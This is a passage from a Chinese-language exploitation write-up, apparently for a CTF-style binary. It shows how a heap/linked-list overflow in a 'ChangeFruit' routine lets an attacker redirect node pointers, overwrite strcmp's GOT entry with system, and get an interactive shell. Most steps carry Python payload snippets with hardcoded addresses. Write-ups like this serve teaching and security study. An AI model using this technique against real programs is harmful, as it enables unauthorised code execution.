 ①首先调用ChangeFruit函数修改第一个水果节点，通过控制Description来覆盖`*next`指针的值，使其指向一片暂时无用的内存区域，即地址b(0x602270)

```
bHex1 = b'x41'*100 + 
        b'x70x22x60x00' 
        b'x0Dx0A'
changeFruit('1','0','0',bHex1)
```

调用ChangeFruit函数修改第一个水果节点后的第一个结点内存数据，红框内是我们控制的指想第二个节点的`*next`的数值。<br>[![](https://p0.ssl.qhimg.com/t011b9f227bec192f44.png)](https://p0.ssl.qhimg.com/t011b9f227bec192f44.png)

②调用ChangeFruit函数修改第二个水果节点，由于第一个水果节点的`*next`已被我们控制，即可以在指定的第二个水果节点写入我们期望的值。<br>
由于`strcmp@.got.plt`地址为0x602058，则第三个水果节点的起始地址为0x602058-0x24=0x602034，我们要通过漏洞修改这个地址对应的值，但由于该地址中含有0x20，0x20会使`scanf("%s",comm-&gt;Description)`的输入会发生截断，因而无法通过`scanf("%s",comm-&gt;Description)`传入0x20，但可以通过`scanf("%d",&amp;comm-&gt;count)`利用count数量来传入带0x20的地址。`Int(0x602034)=6299700`

```
changeFruit('2','0','6299700',b'x00x0Dx0A')
```

调用ChangeFruit函数修改第二个水果节点后的第二个结点内存数据，利用count(水果数量)传入0x602034<br>[![](https://p0.ssl.qhimg.com/t014f033a81403c38e6.png)](https://p0.ssl.qhimg.com/t014f033a81403c38e6.png)

> <p>PS：如果使用Struct Commdity中的int count对strcmp@.got.plt进行覆盖，<br>
会导致system@.got.plt也会被覆盖，导致程序流程中调用system函数时出现错误！利用失败。<br>
0x602058-0x20=0x602038 =&gt; int:6299704 fail!</p>

③再调用ChangeFruit函数修改第一个水果节点,重新修改`*next`指针，指向0x602270+0x20-0x88=0x602208的地址。新的第二个水果节点的`*next`指针的对应的值就为0x602034。见上图蓝色箭头和虚线框，指的是第②步中第二节点的数据结构。

```
bHex2 = b'x41'*100 + 
        b'x08x22x60x00' 
        b'x0Dx0A'
# 0x602270+0x20-0x88=0x602208
changeFruit('1','0','0',bHex2)
```

再调用ChangeFruit函数修改第一个水果节点,重新修改*next指针，完成后的3个结点内存数据<br>[![](https://p2.ssl.qhimg.com/t0118fe6dc0288cb195.png)](https://p2.ssl.qhimg.com/t0118fe6dc0288cb195.png)

④通过上面3步，此时第三个节点的起始地址为0x602034，调用ChangeFruit函数修改第三个水果节点，通过控制Description，改写0x602058地址对应的值，改为0x4007C0，完成`strcmp@.got.plt`的改写，之后在程序中调用strcmp函数就等同于调用system函数。

```
changeFruit('3','0','0',b'xC0x07x40x00x00x00x00x0Dx0A')
```

调用ChangeFruit函数修改第三个水果节点后，第三个结点内存数据（已完成对strcmp@.got.plt的修改）<br>[![](https://p4.ssl.qhimg.com/t01bc55bac6c1f0040e.png)](https://p4.ssl.qhimg.com/t01bc55bac6c1f0040e.png)

⑤利用脚本交互，输入3，退出login函数，再输入0，重新进入login函数。<br>
此时调用strcmp就是调用system函数，利用name传入想要执行的命令，即可被传入system函数实现执行，完成漏洞的利用，得到了shell。

```
sendData('3n')
sendData('0n')

while(1):
    command = input('[+] Shell&gt;')
    sendData(command + 'n')
    sendData('27n')
```
